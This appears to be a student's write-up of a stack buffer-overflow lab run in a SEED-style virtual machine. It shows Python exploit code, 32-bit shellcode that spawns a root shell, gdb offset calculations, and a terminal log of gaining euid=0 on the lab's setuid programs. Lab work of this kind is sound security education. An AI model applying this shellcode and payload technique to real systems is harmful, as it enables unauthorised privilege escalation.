 ```
# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```
Running the commands.
```
[03/01/21]seed@VM:~/.../code$ rm badfile
[03/01/21]seed@VM:~/.../code$ exploit.py
[03/01/21]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# id                                                                           
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
# whoami                                                                       
root
```
After running the stack (level 1), we can see that we have successfully entered the shell with root effective UID, even though we UID is still seed. However, we are still having the root privilege.


### Task 3:
In this task, we are trying to attack the vulnerable 32-bit program without knowing it buffer size. However, it still means that we could run gdb, but just not using it to derive buffer size.
```
[03/01/21]seed@VM:~/.../code$ gdb stack-L2-dbg
...
gdb-peda$ b bof
...
gdb-peda$ run
...
gdb-peda$ next
...
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb58
gdb-peda$ p &buffer
$2 = (char (*)[160]) 0xffffcab0
gdb-peda$ p/d 0xffffcb58 - 0xffffcab0
$3 = 168
```
I used to gdb to get the offset and ebp value that I will be using for my ret. Then I modified my exploit code. First, I changed the shellcode to the appropriate version. Then I changed the start because of the reason I talked about above. Lastly, I modified offset and ret according to gdb information. However, this time, I tried to fill the most of the NOPs with the correct some return address. Since I discovered in my previous tests that the 32-bit version and 100 buffer space is pretty lenient. On top of that, we know that the buffer size is between 100 and 200, so I decided to set a for loop with size 25 that iterate through while adding 4 to delta each time to cover the memory alignment. Thus, I was able to do a buffer overflow without "knowing" the buffer size.
```
...
shellcode = (
  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

...

# Decide the return address value and put it somewhere in the payload
offset = 172      # TODO: Change this number

  # TODO: Change this number
delta = 100
L = 4           # Use 4 for 32-bit address and 8 for 64-bit address
```
